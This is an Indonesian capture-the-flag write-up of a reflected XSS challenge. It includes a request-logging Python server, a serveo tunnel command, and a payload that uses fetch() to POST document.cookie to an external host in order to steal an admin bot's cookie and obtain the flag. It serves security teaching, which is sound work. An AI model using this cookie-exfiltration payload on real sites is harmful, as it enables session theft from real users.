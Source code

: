 # Baby XSS

>Aku yang baru belajar XSS menemukan sebuah repo untuk automasi XSS challenge deployment, berikut reponya: <br>https://github.com/dimasma0305/CTF-XSS-BOT/ <br>Bisakah kalian membantuku untuk melakukan exploitasi XSS sesuai pada repo kode vulnerable yang ada di repository tersebut?

>http://ctf.gemastik.id:9020/

**Category: Web** 

## Approach

![chall](docs/chall.png)

Sesuai dengan deskripsi, challenge ini merupakan challenge XSS. Berdasarkan pada repository, XSS terdapat pada halaman utama yaitu http://ctf.gemastik.id:9020/ dengan parameter x pada URL.

![approach](docs/index.png)

Lakukan XSS sederhana dengan menambahkan `?x=alert(1)` 

![about](docs/alert.png)       

Halaman bot admin berada pada http://ctf.gemastik.id:9020/report.

![inspect](docs/adminbot.png)

Nampaknya flag dimasukkan ke dalam cookie pada bot.

![inspect](docs/bot.png).

Selanjutnya kita akan mencoba mendapatkan cookie dari bot tersebut dengan bantuan XSS, dan dikirimkan ke HTTP Server sederhana yang akan kita buat dan diekspos menggunakan [serveo](https://serveo.net/).

Buat `server.py` untuk menangkap request yang masuk

```python
#!/usr/bin/env python3
"""
License: MIT License
Copyright (c) 2023 Miel Donkers

Very simple HTTP server in python for logging requests
Usage::
    ./server.py [<port>]
"""
from http.server import BaseHTTPRequestHandler, HTTPServer
import logging
            
class S(BaseHTTPRequestHandler):
    def _set_response(self):
        self.send_response(200)
        self.send_header('Content-type', 'text/html')
        self.end_headers()

    def do_GET(self):
        logging.info("GET request,\nPath: %s\nHeaders:\n%s\n", str(self.path), str(self.headers))
        self._set_response()
        self.wfile.write("GET request for {}".format(self.path).encode('utf-8'))

    def do_POST(self):
        content_length = int(self.headers['Content-Length']) # <--- Gets the size of data
        post_data = self.rfile.read(content_length) # <--- Gets the data itself
        logging.info("POST request,\nPath: %s\nHeaders:\n%s\n\nBody:\n%s\n",
                str(self.path), str(self.headers), post_data.decode('utf-8'))

        self._set_response()
        self.wfile.write("POST request for {}".format(self.path).encode('utf-8'))

def run(server_class=HTTPServer, handler_class=S, port=8080):
    logging.basicConfig(level=logging.INFO)
    server_address = ('', port)
    httpd = server_class(server_address, handler_class)
    logging.info('Starting httpd...\n')
    try:
        httpd.serve_forever()
    except KeyboardInterrupt:
        pass
    httpd.server_close()
    logging.info('Stopping httpd...\n')

if __name__ == '__main__':
    from sys import argv

    if len(argv) == 2:
        run(port=int(argv[1]))
    else:
        run()
```

Jalankan HTTP Server dan ekspos ke publik dengan serveo.
```bash
python server.py 8080

ssh -R 80:localhost:8080 serveo.net
```

Masukkan URL berisi payload XSS ke dalam halaman admin bot, ini akan melakukan POST request dan mengirimkan cookie melalui body ke HTTP Server. Rubah `xxx.serveo.net` dengan public URL yang didapat dari port forwarding serveo.

```
http://proxy/?x=fetch(%27https://xxx.serveo.net%27,%20{method:%20%27POST%27,%20body:%20JSON.stringify(document.cookie)})
```

![flag](docs/submit.png)  

Kita mendapatkan flagnya

![solver](docs/flag.png)        

**Flag**: `gemastik{s3lamat_anda_m3ndap4tkan_XSS}`
